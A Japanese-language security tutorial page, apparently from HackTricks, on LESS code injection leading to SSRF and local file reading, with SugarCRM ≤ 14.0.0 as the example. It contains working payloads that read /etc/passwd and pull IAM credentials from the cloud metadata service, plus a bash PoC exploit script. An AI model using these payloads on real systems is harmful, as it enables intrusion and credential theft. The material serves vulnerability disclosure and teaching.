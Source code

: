 # SSRF 脆弱なプラットフォーム

{{#include ../../banners/hacktricks-training.md}}

参照 **[https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)**

## LESS Code Injection leading to SSRF & ローカルファイル読み取り

LESS は変数、mixin、関数、強力な `@import` ディレクティブを追加する人気のある CSS プリプロセッサです。コンパイル時に LESS エンジンは `@import` で参照されたリソースを**フェッチし**、`(inline)` オプションが使用されている場合はその内容を生成された CSS に埋め込み（インライン化）ます。

アプリケーションが**ユーザー制御の入力**を LESS コンパイラによって後でパースされる文字列に連結していると、攻撃者は **任意の LESS コードを注入**できます。`@import (inline)` を悪用することで、攻撃者はサーバーに対して以下を取得させることができます:

* ローカルファイルを `file://` プロトコル経由で取得（情報漏洩 / Local File Inclusion）。
* 内部ネットワーク上やクラウドのメタデータサービス上のリモートリソース（SSRF）。

この手法は **SugarCRM ≤ 14.0.0**（`/rest/v10/css/preview` エンドポイント）などの実製品でも確認されています。

### Exploitation

1. LESS エンジンで処理されるスタイルシート文字列に直接埋め込まれているパラメータを特定する（例: SugarCRM の `?lm=`）。
2. 現在のステートメントを閉じ、新しいディレクティブを注入する。よく使われるプリミティブは:
   * `;`  – 前の宣言を終了する。
   * `}`  – 前のブロックを閉じる（必要な場合）。
3. `@import (inline) '<URL>';` を使って任意のリソースを読み取る。
4. 取り込んだ内容をコンパイル済み CSS から抽出しやすくするため、インポートの後にオプションで **marker**（`data:` URI）を注入する。

#### ローカルファイル読み取り
```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
`/etc/passwd` の内容は、HTTPレスポンスの `@@END@@` マーカー直前に表示されます。

#### SSRF – クラウドメタデータ
```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
#### 自動化された PoC (SugarCRM の例)
```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
sed -n 's/.*@@END@@\(.*\)/\1/p'
```
### 実際の事例

| 製品 | 脆弱なエンドポイント | 影響 |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | 認証不要の SSRF とローカルファイルの読み取り |

### 参考資料

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../../banners/hacktricks-training.md}}
